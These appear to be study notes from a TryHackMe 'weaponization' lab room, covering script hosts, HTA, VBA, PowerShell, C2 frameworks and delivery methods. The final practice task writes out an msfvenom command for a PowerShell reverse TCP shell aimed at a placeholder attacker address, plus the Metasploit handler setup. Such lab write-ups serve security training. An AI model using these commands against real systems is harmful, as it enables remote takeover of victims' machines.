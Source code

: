 # Room
https://tryhackme.com/room/weaponization

# Task 1 - intro
* weaponization is the second stage of the cyber kill chain model
* the attacker generates and develops their own malicious code using deliverable payloads
* resources
    * red team toolkit : https://github.com/infosecn1nja/Red-Teaming-Toolkit#Payload%20Development

# Task 2 - deploy VM
deploy VM

# Task 3 - windows script host
* a windows native engine that is builtin to Windows

# Task 4 - html application - hta
* dynamic HTML pages that contain jscript and vbscript

# Task 5 - vba
* a programming language by microsoft implemented for microsoft applications like word, excel, and powerpoint

# Task 6 - powershell
* object orientated programming language in shell form

# Task 7 - command and control - c2
* popular c2 frameworks
    * cobalt strike
    * powershell empire
    * metasploit

# Task 8 - delivery techniques
* email
* web
* usb

# Task 9 - practice
* created a powershell payload
    * msfvenom -p cmd/windows/powershell_reverse_tcp LHOST=[attacker_ip] LPORT=[attacker_port] > out.ps1
* created a meterpreter handler
    * msfconsole
    * use multi/handler
    * set payload windows/powershell_reverse_tcp
    * set lhost eth0
    * set lport [attacker_port]
    * run
* uploaded malicious payload to target and waited for execution